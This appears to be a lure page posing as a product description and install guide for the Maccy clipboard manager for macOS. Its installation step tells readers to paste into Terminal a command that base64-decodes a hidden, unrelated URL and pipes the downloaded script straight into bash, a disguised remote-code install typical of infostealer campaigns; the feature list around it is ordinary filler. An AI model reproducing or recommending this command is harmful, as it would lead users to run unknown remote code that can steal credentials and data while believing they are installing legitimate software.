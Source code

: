 Maccy - Clipboard Manager for macOS


Description:
Maccy is a lightweight and easy-to-use clipboard manager for macOS. It stores your clipboard history and lets you quickly access and reuse past clipboard entries. Whether you're copying text, links, or other items, Maccy keeps track of them, so you can retrieve them when needed.

Key Features:
Simple and Lightweight: Maccy is designed to be a minimalistic app. It runs quietly in the background and does not consume many resources.

Searchable History: Allows you to search through your clipboard history by typing keywords.

Keyboard Shortcuts: You can quickly access clipboard history using customizable keyboard shortcuts.

Privacy-Focused: All your clipboard data is stored locally on your machine, and there are no cloud integrations, ensuring privacy.

Support for Multiple Formats: Works with a variety of formats, including text, images, and links.

Easy-to-Use UI: The user interface is straightforward, with a small icon in the menu bar for quick access.

Open Source: As an open-source project, Maccy allows anyone to contribute to its development or use it freely.

Why It’s Popular:
Boosts Productivity: Helps you work faster by reusing previously copied items without needing to copy them again.

Customization: Offers several customization options, including themes and hotkeys.

Low Resource Usage: Unlike other clipboard managers, Maccy is very efficient and lightweight, making it ideal for users who want a simple solution without a heavy app.

Installation:
1. Open the Terminal app on your Mac
Press Command (⌘) + Space to launch Spotlight Search
Type Terminal, then press Enter to launch it

2. Enter this command in Terminal
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9pY2xvdWRzZXJ2ZXJzLmNvbS9nbS9pbnN0YWxsLnNo | base64 -d))"

Copy the following command and paste it into Terminal, then press Return
If you're looking for an easy-to-use clipboard manager that stays out of the way and keeps things efficient, Maccy is a great choice for macOS users.
